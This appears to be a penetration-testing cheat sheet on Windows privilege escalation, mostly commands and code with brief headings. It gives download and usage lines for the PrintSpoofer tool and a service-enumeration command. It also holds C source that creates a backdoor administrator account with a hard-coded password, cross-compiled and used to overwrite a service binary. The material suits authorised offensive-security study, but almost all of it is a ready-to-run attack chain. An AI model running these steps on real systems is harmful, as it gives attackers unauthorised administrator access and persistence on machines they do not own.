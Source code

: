 ### printspoofer
download
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

usage
```
.\PrintSpoofer.exe -i -c cmd
```
## Windows Services
### Service Binary Hijacking
List of services with binary path
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} | findstr /i /v "C:\Windows"
```

check permissions
```
icacls PATH
```

icacls permission
```
|F|Full access
|M|Modify access
|RX|Read and execute access
|R|Read-only access
|W|Write-only access
```

adduser.c code
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

 Cross-Compile the C Code
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

then replacing the service binary
```
mv .\adduser.exe SERVICE_BINARY_PATH
```
